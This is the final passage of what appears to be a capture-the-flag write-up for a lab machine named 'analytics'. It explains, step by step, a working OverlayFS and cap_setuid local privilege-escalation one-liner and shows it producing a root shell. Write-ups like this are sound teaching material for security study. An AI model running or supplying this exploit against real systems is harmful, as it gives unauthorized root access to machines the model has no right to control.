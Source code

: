  `sh -c “mkdir l u w m && cp /u*/b*/p*3 l/;`

- This invokes a new shell `sh` to execute the command string provided after `-c`.
- `mkdir l u w m` creates four directories named `l`, `u`, `w`, and `m`.
- `cp /u*/b*/p*3 l/` this command is copying a Python3 binary (based on the pattern `/u*/b*/p*3`) to the `l` directory.

 `setcap cap_setuid+eip l/python3;`

- `setcap` is used to set capabilities on binaries.
- `cap_setuid` allows the binary to change its UID (User Identifier).
- `+eip` ensures that the capability is effective, inheritable, and permitted.
- This command is granting the python3 binary in the `l` directory the ability to change its user ID, effectively allowing it to become any user, including root.

 `mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m`

- This mounts an overlay filesystem. Overlay filesystems let you overlay one directory (called the upper directory) on top of another (called the lower directory).
- Here, it’s overlaying the directory `u` over `l`, using `w` as a work directory, and mounting the resulting filesystem at `m`.

`touch m/*`

- This command is creating a new, empty file for every file that exists in the `m` directory.

`u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'`

- After the `sh` command sequence completes, this runs a Python3 command from the `u` directory.
- `os.setuid(0)`sets the user ID of the current process to 0, which is the UID for root. Given that the Python3 binary has been granted the `cap_setuid` capability, it can effectively change its UID to root.
- `os.system("/bin/bash")`starts a new bash shell. Since the process's user ID was just set to root, this bash shell runs with root privileges.

---

Once we execute the payload it should return us a shell as `root`

```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
root@analytics:~# 
```

Then just cat to `/root/root.txt` and you can see the root flag:

![Desktop View](AnalyticsRootFlag.png)

-- -

![Desktop View](AnalyticsPwn.png)

-- -
**Thanks for reading, i’ll appreciate that you take a look to my other posts :)**

